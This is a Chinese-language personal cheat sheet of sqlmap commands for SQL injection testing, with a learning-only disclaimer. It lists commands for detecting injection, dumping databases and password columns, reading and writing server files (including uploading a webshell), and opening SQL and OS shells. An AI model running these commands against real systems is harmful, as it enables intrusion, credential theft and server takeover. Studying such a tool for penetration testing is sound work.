 # sqlmap 小记

---

## 免责声明

`本人撰写的手册,仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关。`

---

## Reference
- [Sqlmap使用教程【个人笔记精华整理】 | 漏洞人生](http://www.vuln.cn/1992)

---

## 常见操作
**检测注入**
```bash
sqlmap -u URL   # 判断注入
sqlmap -u URL -p id # 指定参数注入
sqlmap -u URL --cookie="xxxxx"  # 带 cookie 注入
sqlmap -u URL --batch   # 不要请求用户输入，使用默认行为
sqlmap -r aaa.txt   # post型注入

sqlmap -u URL --os "Windows"    # 指定操作系统
sqlmap -u URL -dbms mysql -level 3   # 指定数据库类型为 mysql，级别为 3（共 5 级，级别越高，检测越全面）
sqlmap -u URL --dbms mysql --prefix "%df%27" --technique U -v 3   # 宽字节检测
sqlmap -u URL --proxy "socks5://127.0.0.1:1080" # 代理注入测试
sqlmap -u URL --referer "http://www.google.com" # 模拟来源
sqlmap -u URL --user-agent "Googlebot/2.1(+http://www.googlebot.com/bot.html)"  # 模拟谷歌蜘蛛
```

**获取信息**
```bash
sqlmap -u URL --current-db  # 获取当前数据库
sqlmap -u URL --dbs  # 枚举所有数据库
sqlmap -u URL -f    # 检查 DBMS 版本
sqlmap -u URL --is-dba  # 判断当前用户是否是 dba
sqlmap -u URL --users   # 列出数据库管理系统用户
sqlmap -u URL --privileges  # 枚举 DBMS 用户权限
sqlmap -u URL --passwords   # 获取当前数据库密码


sqlmap -u URL -D DATABASE --tables  # 获取数据库表
sqlmap -u URL -D DATABASE -T TABLES --columns   # 获取指定表的列名
sqlmap -u URL -D DATABASE -T TABLES -C COLUMNS --dump   # 获取指定表的列名
sqlmap -u URL -dbms mysql -level 3 -D test -T admin -C "username,password" -dump    # dump 出字段 username 与 password 中的数据
sqlmap -u URL --dump-all    # 列出所有数据库，所有表内容
```

**搜索字段**
```bash
sqlmap -r "c:\tools\request.txt" -dbms mysql -D dedecms --search -C admin,password   # 在 dedecms 数据库中搜索字段 admin 或者 password。
```

**读取与写入文件**

首先找需要网站的物理路径，其次需要有可写或可读权限。

- -file-read=RFILE 从后端的数据库管理系统文件系统读取文件 （物理路径）
- -file-write=WFILE 编辑后端的数据库管理系统文件系统上的本地文件 （mssql xp_shell）
- -file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径
```bash
sqlmap -r aaa.txt --file-dest "e:\php\htdocs\dvwa\inc\include\1.php" --file-write "f:\webshell\1112.php"

# 注：mysql 不支持列目录，仅支持读取单个文件。sqlserver 可以列目录，不能读写文件，但需要一个 xp_dirtree 函数
```

**提权**
```bash
sqlmap -u URL --sql-shell   # 获取一个 sql-shell 会话
sqlmap -u URL --os-shell    # 获取一个 os-shell 会话
sqlmap -u URL --os-cmd=ipconfig # 在注入点直接执行命令
```
